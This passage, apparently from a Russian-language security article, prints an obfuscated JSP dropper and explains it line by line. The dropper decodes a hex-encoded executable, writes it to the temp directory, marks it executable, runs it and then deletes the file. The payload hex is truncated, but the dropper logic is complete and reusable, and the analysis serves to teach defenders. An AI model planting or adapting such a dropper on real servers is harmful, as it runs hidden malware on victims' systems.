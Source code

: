 ```text
 1 <%@ page import="java.io.*" %>
 2 <%
```

```java
 3  String egTwYyNyGe = "4d5a90000300000004000000ffff0000b8000...";
 4  String fynDpwhPjEzrXc = System.getProperty("java.io.tmpdir") + "/OrBJOfpeKGojSNK";
 5
 6  if (System.getProperty("os.name").toLowerCase().indexOf("windows") != -1) {
 7    fynDpwhPjEzrXc = fynDpwhPjEzrXc.concat(".exe");
 8  }
 9
10  int ljxqJsOzbcZb = egTwYyNyGe.length();
11  byte[] xHRAgYBDYy = new byte[ljxqJsOzbcZb/2];
12  for (int hksgnQAupt = 0; hksgnQAupt < ljxqJsOzbcZb; hksgnQAupt += 2) {
13    xHRAgYBDYy[hksgnQAupt / 2] = (byte) ((Character.digit(egTwYyNyGe.charAt(hksgnQAupt), 16) << 4)
14                                              + Character.digit(egTwYyNyGe.charAt(hksgnQAupt+1), 16));
15  }
16
17  FileOutputStream FqAwiqfsveTbNJR = new FileOutputStream(fynDpwhPjEzrXc);
18  FqAwiqfsveTbNJR.write(xHRAgYBDYy);
19  FqAwiqfsveTbNJR.flush();
20  FqAwiqfsveTbNJR.close();
21
22  if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1){
23    String[] RnIdZAAiAiBBY = new String[3];
24    RnIdZAAiAiBBY[0] = "chmod";
25    RnIdZAAiAiBBY[1] = "+x";
26    RnIdZAAiAiBBY[2] = fynDpwhPjEzrXc;
27    Process MgklpqdMn = Runtime.getRuntime().exec(RnIdZAAiAiBBY);
28    if (MgklpqdMn.waitFor() == 0) {
29      MgklpqdMn = Runtime.getRuntime().exec(fynDpwhPjEzrXc);
30    }
31
32    File USGdceIiNo = new File(fynDpwhPjEzrXc); USGdceIiNo.delete();
33  } else {
34    String[] ppmvkPHt = new String[1];
35    ppmvkPHt[0] = fynDpwhPjEzrXc;
36    Process MgklpqdMn = Runtime.getRuntime().exec(ppmvkPHt);
37  }
```

```text
38 %>
```

Разберемся, что здесь происходит:
  1. [строка 3] Определяется переменная `egTwYyNyGe`, содержащая гигантскую hex-строку, начинающуюся с `4d5a` — [сигнатуры "MZ"](https://ru.wikipedia.org/wiki/MZ_(формат) "MZ (формат) — Википедия"), свойственной исполняемым файлам Windows.
  2. [строка 4] Создается путь к файлу со случайным именем в местной врéменной директории (`java.io.tmpdir`).
  3. [строки 6-8] Если название ОС содержит слово "windows", то к полному имени файла (еще не существующему) добавляется расширение ".exe".
  4. [строка 10] Определяется длина той гигантской hex-строки.
  5. [строки 11-15] Создается байтовый массив с размером, равным половине длины hex-строки (это логично, потому что 2 hex-символа представляют 1 байт) и заполняется значениями из hex-строки, конвертированными в байты.
  6. [строки 17-20] Создается файловый поток, ассоциированный с именем из шага 3, и заполняется значениями байтового массива из шага 5.
  7. [строки 22-37] В зависимости от того, с какой ОС мы имеем дело, выполняются приготовления для запуска созданного файла, и, собственно, файл запускается на исполнение.
